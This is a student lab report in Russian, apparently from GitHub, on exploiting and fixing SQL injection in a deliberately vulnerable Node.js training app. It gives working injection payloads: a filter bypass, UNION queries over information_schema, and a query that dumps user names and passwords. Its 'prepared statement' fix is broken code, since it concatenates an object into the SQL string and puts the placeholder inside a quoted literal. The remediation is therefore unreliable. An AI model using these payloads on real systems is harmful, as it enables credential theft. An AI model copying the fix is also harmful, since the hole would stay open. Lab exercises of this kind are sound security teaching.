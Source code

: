 # Лабораторная работа №2

Цель работы: Поиск и устранение SQL Injection.

## Задание 1

В папке lab2 находится nodejs уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.

Для выполнения лабораторной потребуется проделать следующие шаги:

1. Установить PostgreSQL сервер любой версии.
 
В качестве БД будем использовать docker-образ PostgreSQL. Запуск командой:

```bash
docker run --name postgres-lr -e POSTGRES_PASSWORD=passwddd -e POSTGRES_USER=postgres -e POSTGRES_DB=lib -d -p 5432:5432 postgres
```

2. Создать БД lib.

БД создается при запуске контейнера с помощью переменной окружения POSTGRES_DB=lib. 
 
3. Применить к ней скрипты из папки db (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла. Восстановить данные из файла data.sql.

Для входа в БД используется команда запуска шелла в контейнере, а затем, уже в контейнере, выполняется команда доступа к шеллу БД.

```bash
docker exec -it postgres-lr /bin/bash
psql -U postgres -d lib
```

<center>![Picture 3.1](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.1.png)</center>

<center>![Picture 3.2](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.2.png)</center>

<center>![Picture 3.3](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.3.png)</center>

4. Установить nodejs версии 14.

5. Перейти в папку lab2 и выполнить в ней команду:

```bash
npm install
```

<center>![Picture 5](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/5.png)</center>

6. Запустить сайт через Visual Studio Code или через команду:

```bash
npm start
```

<center>![Picture 6](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/6.png)</center>

7. Войти на сайт и увидеть список книг и авторов.
 
<center>![Picture 7](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/7.png)</center>
    
8. Обнаружить sql инъекцию.

Используем в качестве пейлоада одинарную кавычку и получаем ошибку и весь SQL запрос.

<center>![Picture 8](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/8.png)</center>

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации. В отчете приветси информацию об: обходе установленного фильтра, получении данных из другой таблицы, похищении пароля пользователя.

Получим текущую таблицу в обход SQL-запроса приложения. Используем пейлоад:

```sql
%' or 1 = 1 --
```

<center>![Picture 9.1](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.1.png)</center>

Получим схему БД для определения таблиц с помощью пейлоада:

```sql
%' union select null, table_schema, table_name from information_schema.tables --
```

<center>![Picture 9.2](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.2.png)</center>

Из вывода можно найти информацию от том, что есть таблица public.users. С помощью следующего запроса определим какие столбцы есть в БД и их тип:


```sql
%' union select null, column_name,data_type  from information_schema.columns  where table_name = 'users'; --
```

<center>![Picture 9.3](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.3.png)</center>

Посмотрим записи таблицы public.users с помощью запроса:

```sql
%' union select null, name, pass  from public.users; --
```

<center>![Picture 9.4](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.4.png)</center>
 
10. Исправить уязвимость. В отчёте привести пример того, что уязвимости больше не эксплуатируются.
 
Для исправления уязвимости используем prepared statements в запросе поиска по книге.

```javascript
if(bookname){
        sql+={
            text: `\rwhere b.name like '%$1%'`,
            values: [bookname]
        };
    }
```

<center>![Picture 10](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/10.png)</center>


P.S.
Помимо изученной SQLi обнаружена еще однин риск: хранение аутентификационных данных в коде программы.
Есть много способов получения аутентифкационных данных, одним из которых является PAM.
